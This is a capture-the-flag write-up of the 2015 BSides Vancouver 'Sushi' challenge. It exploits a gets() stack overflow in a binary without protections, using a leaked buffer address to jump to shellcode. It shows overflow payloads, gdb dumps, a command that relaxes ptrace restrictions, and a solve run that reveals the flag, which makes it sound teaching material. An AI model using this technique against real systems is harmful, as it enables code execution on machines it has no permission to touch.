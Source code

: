 # Vancouver BSides CTF 2015: Sushi

**Category:** Ownable
**Points:** 100
**Solves:** 101
**Description:** 

> sushi.termsec.net 4000
> 
> Sushi is great in Vancouver. It's cheap, it's delicious, and it's everywhere.
> 
> Read flag.txt
> 
> [sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8](sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8)

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>

### Meta

Keywords:

* Stack Overflow in `gets`

We are given a stripped x86-64 bit for Linux:

```bash
$ file sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=ecf8d3deb9274a9ce4ab4532469a1f3027534d92, stripped
```

Running it:

```bash
$ ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fff53177780
100
Sorry, $0.49 is not enough.
```

`checksec` tells us that no security is enabled:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Since `NX` is disabled, we might be able to push shellcode to the stack using a stack overflow and execute it.
However, we might have to deal with ASLR.

Decompiling the binary's `main` using `radare2`:

![](./main.png)

Since the binary is stripped, we don't see any other functions that might be of interest:

```bash
[0x004004a0]> aa
[0x004004a0]> afl | sort -k1 | column -t
0x00400450  16  2  sym.imp.printf
0x00400460  16  2  sym.imp.__libc_start_main
0x00400480  16  2  sym.imp.gets
0x00400490  16  2  sym.imp.fflush
0x004004a0  42  1  entry0
0x00400596  93  1  main
```

Having the [64-bit C calling convention order](http://stackoverflow.com/a/4266083) in mind, the code becomes pretty straightforward:

```C
&buf = rbp-0x40;
printf("Deposit money for sushi here: %p\n",buf);
fflush(0); // 0 == stdin
buf = gets(buf);
printf("", "Sorry, $0.%d is not enough.\n", buf[0]);
fflush(0);
```

This tells us two things:

* The address to our input buffer is leaked, rendering ASLR irrelevant
* Since `gets` is used without any preceding input length check, we can smash the stack and overwrite the return instruction pointer RIP to point to our shellcode

We test our hypothesis:

* Set `ulimit -c unlimited` to create core dumps after a segementation fault. [Source](http://stackoverflow.com/questions/2919378/how-to-enable-core-dump-in-my-linux-c-program) and [here](https://wiki.archlinux.org/index.php/Core_dump)
* `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` - Didn't work without - used it to make gdb attach work [Source](http://askubuntu.com/questions/41629/after-upgrade-gdb-wont-attach-to-process)
* Overflow the buffer, generating a core dump:
```bash
$ python -c 'print "A"*0x40+"ARBPARBP"+"BBBBCCCC"' | ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8                                           
Deposit money for sushi here: 0x7fff11e90620
Sorry, $0.65 is not enough.
Segmentation fault (core dumped)
$ ls
core  peda-session-sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8.txt  sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8
$ file core
core: ELF 64-bit LSB  core file x86-64, version 1 (SYSV), SVR4-style, from './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```
* Analyse it using gdb: `gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core`:
```bash
$ gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core

Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.

warning: core file may not match specified executable file.
[New LWP 2468]
Core was generated by `./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/i $rip
=> 0x4005f2:    ret    
gdb-peda$ x/2wx $rsp
0x7fff11e90668: 0x42424242      0x43434343
```

We see that a Segmentation fault happened at the `ret` instruction of our main function. `rsp` points at the next address that `rip` has to jump to, which is (64 bit == 8 bytes address) `0x4242424243434343` (Hope I got the order right).

You can also just load the binary in `gdb-peda`, run it, provide it with the payload string `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC` and see the status of our stack at the end of the main function (last 2 instructions):

```bash
$ gdb ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.
gdb-peda$ b *0x004005f1
Breakpoint 1 at 0x4005f1
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/bsides/sushi/sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fffffffe390
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC
Sorry, $0.65 is not enough.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
[...]
RBP: 0x7fffffffe3d0 ("ARBPARBPBBBBCCCC")
RSP: 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
RIP: 0x4005f1 (leave)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e2:    mov    edi,0x0
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
=> 0x4005f1:    leave  
   0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
[...]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
[...]
gdb-peda$ x/20wx $rbp
0x7fffffffe3d0: 0x50425241      0x50425241      0x42424242      0x43434343
[...]
gdb-peda$ ni
[...]
RBP: 0x5042524150425241 ('ARBPARBP')
RSP: 0x7fffffffe3d8 ("BBBBCCCC")
RIP: 0x4005f2 (ret)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
   0x4005f1:    leave  
=> 0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
   0x400602:    mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe3d8 ("BBBBCCCC")
gdb-peda$ ni
[...]
Stopped reason: SIGSEGV
```

You'll see that `leave` is correspondent to "Move saved `rbp` to `rsp`", meaning `mov rsp, [rbp+8]` and `ret` is correspondent to `pop rip`.

All that's left to do now is find a shellcode that fits for `gets` (function is null byte `\x00` friendly), which is smaller than `0x48`==`72` bytes and set RIP to our input buffer address, leaked by the program itself!

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Started program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
[*] Switching to interactive mode
Sorry, $0.49 is not enough.
$ cat flag.txt
flag{I_l3ft_my_wallet_in_#irc}
[*] Stopped program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```


## Other write-ups and resources

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>
* [Japanese](http://mage-ctf-writeup.blogspot.jp/2015/03/b-sides-vancouver-2015.html)
* [Japanese 2](http://charo-it.hatenablog.jp/entry/2015/03/18/234404)
* [Korean?](http://revers3r.tistory.com/27)
* [Korean](http://s0ngsari.tistory.com/entry/yvrctfPwnable-100)
* <http://captf.com/2015/bsides-vancouver/ownable/sushi-psifertex-solve.py>
* <https://gist.github.com/emyei/248ccf0aa4b773aa17a7>
* <http://smleenull.tistory.com/521>